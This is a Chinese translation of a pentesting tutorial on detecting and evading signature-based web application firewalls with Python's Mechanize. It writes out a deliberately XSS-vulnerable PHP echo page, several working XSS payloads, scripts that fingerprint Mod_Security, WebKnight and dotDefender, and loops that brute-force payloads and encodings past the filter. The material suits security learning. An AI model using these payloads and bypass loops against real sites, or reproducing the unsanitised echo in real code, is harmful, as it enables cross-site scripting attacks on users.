

# 使用Python检测和绕过WAF <译>


<sub>* 本文非完全直译，想了解作者原意，请直接阅读[<i class="fa fa-link"></i> 英文原文](http://www.kalitutorials.net/2016/12/python-detect-and-bypass-web-application-firewall.html)。</sub>

WAF *（Web Application Firewall）* 通常被前置于Web服务器进行部署，用来过滤发送至后端Web服务器的恶意流量。

> 当你在对目标进行渗透测试时，如果授权方忘记告诉你他们使用了WAF，那你可能会陷入到比较严重的困境之中。

下图描述了简单WAF的工作方式，如你所见，它像面墙一样挡在Web流量和Web服务器之间。



而目前，WAF更多是基于特征 *（译者注：原文使用『signature based』一词，根据下文意思来看，就是常说的基于正则匹配）* 来做的。

## 什么是基于特征的WAF？

在基于特征的WAF中可以定义特征，就和你熟知的Web攻击相似的模式或特征一样，可以定义一堆的特征匹配模式来阻断这些恶意流量。

举个例子：`<svg><script>alert&grave;1&grave;<p>`

这是一种XSS攻击的Payload模型，所有基于这种模型的攻击一般都会包含`<script>`字符串，因此可以定义一个特征来阻断所有包含该字符串的Web请求流量。那么，针对这种攻击模型，同样也可以衍生出如下2到3个特征定义：

1. `<script>`
1. `alert(*)`

第一个特征将会阻断所有包含`<script>`字符串的请求，而第二个则会阻断`alert([任意内容])`。

**这，就是基于特征的WAF的工作原理。**

## 如何检测是否存在WAF？

如文章开头所说，如果你正在进行渗透测试，而并不知道网络的另一端正有一个WAF在捣鬼，那么很可能会耗费你相当多的时间。因为大多数情况下，你的Payload都会被WAF阻断，而无法判断到底它是否到达和作用于目标，导致你最终做出误判认为目标是安全的。

因此，在开始你的渗透测试前，尝试检测目标是否存在WAF，是相当明智的选择。

如今大多数WAF都会留下一些属于它们自己独特的痕迹。如果你使用上面的Payload去尝试攻击，并收到了如下HTTP响应：

```http
HTTP/1.1 406 Not Acceptable
Date: Mon, 10 Jan 2016
Server: nginx
Content-Type: text/html; charset=iso-8859-1

Not Acceptable!Not Acceptable! An appropriate representation of the requested resource could not be found on this server. This error was generated by <strong>Mod_Security</strong>.
```

那么很抱歉，你的攻击已经被著名的Mod Security阻断拦截了。

> 这篇文章的主要内容就是告诉你如何编写一个简单的Python脚本来检测和绕过WAF。

## 第一步：写一个漏洞

首先，需要写一个简单的模拟存在漏洞的Web应用程序 *（别问为什么，除非你想喝茶）* 。

前端 *（HTML）* ：

```html
<html>
<body>
    <form name="waf" action="waf.php" method="post">
        Data: <input type="text" name="data"><br>
        <input type="submit" value="Submit">
    </form>
</body>
</html>
```

后端 *（PHP）* ：

```html
<html>
<body>
    Data from the form : <?php echo $_POST["data"]; ?><br>
</body>
</html>
```

## 第二步：准备恶意请求

然后，构造一个包含XSS攻击Payload的恶意请求。

这里使用了一个名为『Mechanize』的Python第三方模块，它可以模拟浏览器交互。

> 更多关于『Mechanize』模块的内容，可以参考[<i class="fa fa-link"></i> Automate Cross Site Scripting (XSS) attack using Beautiful Soup and Mechanize](http://cyberpersons.com/2016/12/04/automate-cross-site-scripting-xss-attack-using-beautiful-soup-mechanize/)。

利用『Mechanize』模块向后端Web应用程序提交请求，代码如下：

```python
import mechanize as mec


maliciousRequest = mec.Browser()
formName = 'waf'

maliciousRequest.open("http://thisisafakewebsite.net/testWAF.html")
maliciousRequest.select_form(formName)
```

看不懂代码没关系，下面一行行来解释下：

1. 第一行，引入『Mechanize』模块，给它取了个小名叫『mec』
1. 第二行，使用小『mec』创建一个『浏览器』实例
1. 第三行，定义一个变量`formName`，把上面HTML中form表单的name属性值『waf』赋给它
1. 第四行，打开指定的URL，就是你写的那个漏洞页面 *（不用多说，这是个HTTP请求，需要提供正确的URL，本地的相对路径是肯定没戏的）*
1. 第五行，传入变量`formName`，告诉小『mec』在打开的页面中找到名为『waf』的表单

可以将Payload注入到这个表单唯一的input域中，观察由服务端回复的响应，来检测判断是否存在WAF。

## 第三步：准备攻击Payload

在input域『data』中填入准备好的攻击Payload：

```python
crossSiteScriptingPayLoad = "<svg><script>alert&grave;1&grave;<p>"
maliciousRequest.form['data'] = crossSiteScriptingPayLoad
```

1. 第一行，定义变量`crossSiteScriptingPayLoad`，存储攻击Payload字符串
1. 第二行，将其填入form表单中的『data』域

现在可以提交表单来分析响应了。

## 第四步：提交表单

提交表单，并输出响应内容：

```python
maliciousRequest.submit()

response = maliciousRequest.response().read()
print response
```

没有部署WAF的时候，输出的响应内容是这样的：

```html
<html>
<body>
    Data from the form : <svg><script>alert&grave;1&grave;<p><br>
</body>
</html>
```

可以很直观的看到，响应内容直接输出了之前提交的Payload。这就意味着，后端Web应用并没有过滤这段Payload，也没有部署任何WAF来阻断这个恶意请求。

现在，万事俱备，只欠东风。

## 第五步：检测是否存在WAF

变量`response`存储了服务器的响应内容，可以用它来简单检测下面几个WAF：

1. WebKnight
1. Mod_Security
1. Dot Defender

来看看Python如何实现它：

```python
if response.find('WebKnight') >= 0:
    print "Firewall detected: WebKnight"
elif response.find('Mod_Security') >= 0:
    print "Firewall detected: Mod Security"
elif response.find('dotDefender') >= 0:
    print "Firewall detected: Dot Defender"
else:
    print "No Firewall Present"
```

- 如果后端部署了Web Knight，响应内容中会包含『WebKnight』字符串
- 如果后端使用了Mod Security，响应内容中会包含『Mod_Security』字符串
- 如果后端部署了Dot Defender，响应内容中则会包含『dotDefender』字符串

你可以收集更多其他的WAF特征，来扩展这个小脚本 *（译者注：在检测逻辑中，最好能缩小待检测内容的范围，或者在最开始传入合适的URL，降低误报率）* 。

## 暴力绕过WAF

文章开头就提到过，目前大部分WAF都是基于特征来检测和阻断恶意请求的。但是各种语言和环境特性导致可被用于攻击的Payload以及它们的变体成百上千，你可以把它们放在列表里，一个个尝试，记录每次请求的响应，看看是否可以绕过WAF。

上Python：

```python
listofPayloads = ['<dialog open="" onclose="alert(1)"><form method="dialog"><button>Close me!</button></form></dialog>', '<svg><script>prompt&#40 1&#41<i>', '<a href="javascript:alert(1)">CLICK ME<a>']
for Payload in listofPayloads:
    maliciousRequest = mec.Browser()
    formName = 'waf'

    maliciousRequest.open("http://thisisafakewebsite.net/testWAF.html")
    maliciousRequest.select_form(formName)
    maliciousRequest.form['data'] = Payload
    maliciousRequest.submit()

    response = maliciousRequest.response().read()
    if response.find('WebKnight') >= 0:
        print "Firewall detected: WebKnight"
    elif response.find('Mod_Security') >= 0:
        print "Firewall detected: Mod Security"
    elif response.find('dotDefender') >= 0:
        print "Firewall detected: Dot Defender"
    else:
        print "No Firewall Present"
```

没见过的代码看这里：

1. 第一行，定义了包含3个Payload的列表
1. 第二行，for循环，取出每个Payload来尝试绕过

没有部署WAF的时候，程序的输出是这样的：

```html
<html>
<body>
    Data from the form : <svg><script>alert&grave;1&grave;<p><br>
</body>
</html>
No Firewall Present
No Firewall Present
No Firewall Present
No Firewall Present
```

## 编码绕过WAF

假设WAF会过滤HTML标签中的关键字符，如`<`和`>`，可以尝试使用Unicode或Hex实体编码替换，如果它们在输出时被转换为原始字符形态，就可以作为一个突破口继续尝试绕过。

终于是最后的代码了：

```python
listofPayloads = ['<b>', '\u003cb\u003e', '\x3cb\x3e']
for payLoads in listofPayloads:
    maliciousRequest = mec.Browser()
    formName = 'waf'

    maliciousRequest.open("http://thisisafakewebsite.net/testWAF.html")
    maliciousRequest.select_form(formName)
    maliciousRequest.form['data'] = payLoads
    maliciousRequest.submit()

    response = maliciousRequest.response().read()
    print "---------------------------------------------------"
    print response
    print "---------------------------------------------------"
```

来看看输出会是什么样子：

```html
---------------------------------------------------
<html>
<body>
    Data from the form : &lt;b&gt;<br>
</body>
</html>
---------------------------------------------------
---------------------------------------------------
<html>
<body>
    Data from the form : \u003cb\u003e<br>
</body>
</html>
---------------------------------------------------
---------------------------------------------------
<html>
<body>
    Data from the form : <b><br>
</body>
</html>
---------------------------------------------------
```

发现存在一个未被编码的标签，表示它被转换为了原始字符形态，这就是希望。

## 结论

这篇文章的目的是为了对你提前做一次安全普及，促使你提高自身的安全意识和能力，早黑客一步发现自己使用的WAF的弱点。

因为现今大部分的人都只优先关心业务和产品，保证它们能够正常部署上线运行，而忽略了安全部分 *（过度重视安全也是不好的，它往往和你的部分业务产品相悖，后期会成为一个让你十分头疼的问题）* 。因此，具备自省自查的能力，能够自我主动的发现存在于自己网络基础设施中的安全威胁，始终个不错的选择。

<sub>[<i class="fa fa-link"></i> 查看完整源代码](https://paste.ee/p/T9qb5)</sub>

## 说在最后的话

这篇文章的作者所给出的代码只是为了向读者阐述他的观点和理论，抛砖引玉，相信你可以基于他的思路写出属于自己的WAF检测和绕过工具。